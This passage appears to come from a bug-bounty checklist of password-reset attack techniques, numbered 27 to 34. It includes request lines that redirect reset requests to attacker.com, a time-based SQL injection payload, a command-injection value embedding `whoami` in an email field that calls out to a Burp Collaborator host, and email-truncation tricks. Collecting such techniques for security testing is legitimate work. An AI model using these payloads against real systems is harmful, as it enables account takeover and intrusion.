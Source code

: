 ### **27. Cross-Domain Token Usage**  
- If the application has multiple domains using the same reset mechanism, try using a token generated from one domain on another.

### **28. Register the Same Email with a Different Domain**  
- Example: `.eu`, `.net`, and alter the email in the change email link.

### **29. Broken Token Encryption**  
- Test if you can guess how password reset tokens are generated.

### **30. Manipulating Password Reset Request Links**  
```
POST https://attacker.com/resetpassword.php HTTP/1.1  
POST @attacker.com/resetpassword.php HTTP/1.1  
POST :@attacker.com/resetpassword.php HTTP/1.1  
POST /resetpassword.php@attacker.com HTTP/1.1  
```

### **31. SQL Injection Payload**  
```
test@test.com'+(select*from(select(sleep(2)))a)+'  
```

### **32. Command Injection**  
```
email=hello@`whoami`.xyz.burpcollaborator.net  
```

### **33. Data Truncation: Create Two Emails with Different Domains and Cut After @  or Without Extension**  
```
email=victim  
email=victim@xyz  
```

### **34. Add Extension (.json)**  
```
POST /resetpassword.json?email=victim@xyz.tld
```
